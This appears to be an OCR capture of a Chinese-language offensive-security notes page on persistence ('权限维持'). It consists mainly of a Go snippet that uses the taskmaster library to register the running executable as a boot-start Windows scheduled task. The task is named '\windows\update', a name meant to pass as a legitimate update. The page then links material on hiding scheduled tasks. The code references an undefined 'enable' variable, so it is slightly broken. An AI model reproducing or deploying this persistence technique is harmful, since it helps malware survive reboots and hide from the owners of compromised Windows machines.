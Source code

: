 ## 权限维持

### 计划任务

```go
package main  

import (  
    "os"  
    "github.com/capnspacehook/taskmaster"  
)  

func runWinTask(path string) {  
    // 创建初始化计划任务  
    taskService, _ := taskmaster.Connect()  

    defer taskService.Disconnect()  
    // 定义新的计划任务  
    newTaskDef := taskService.NewTaskDefinition()  
    // 添加执行程序的路径  
    newTaskDef.AddAction(taskmaster.ExecAction{  
        Path: path,  
    })  
    // 定义计划任务程序的执行时间等，设置为开机启动  
    newTaskDef.AddTrigger(taskmaster.BootTrigger{  
        TaskTrigger: taskmaster.TaskTrigger{  
            Enabled: enable,  
        },  
    })  

    // 创建计划任务  
    result, _, _ := taskService.CreateTask("\\windows\\update", newTaskDef, true)  
    result=result  
}  

func main() {  
    path, err := os.Executable()  
    if err != nil {  
        return  
    }  

    runWinTask(path)  
}
```

#### 隐藏计划任务

具体原理可参考0x727师傅的文章

https://github.com/0x727/SchTask_0x727
https://payloads.cn/2021/0805/advanced-windows-scheduled-tasks.html
